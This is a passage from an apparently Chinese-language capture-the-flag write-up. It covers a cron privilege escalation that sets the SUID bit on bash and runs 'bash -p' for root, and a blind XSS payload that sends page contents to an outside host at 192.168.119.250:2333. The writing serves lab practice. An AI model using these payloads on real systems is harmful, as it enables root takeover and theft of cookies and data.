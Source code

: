 
里面有一个 lookme ，是flag4

### flag5

在/home/ryan目录下存在一个del.py文件

```python
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

且可读写可执行，存在计划任务提权

```
chomd u+s /usr/bin/bash
```

/usr/bin/bash -p即可提权至root，在/root目录下发现aim.jpg文件，打开查看为flag5



## CCB2025

### flag1

扫描到feedback.html 可以盲打xss 泄露cookie（根据题目提示也知道是xss）

```
<img src=1 onerror=window.open("http://192.168.119.250:2333/"+document.all)>
```

这里有点坑，注意将语句写入每一个输入框

![image-20250319144818768](./img/image-20250319144818768.png)

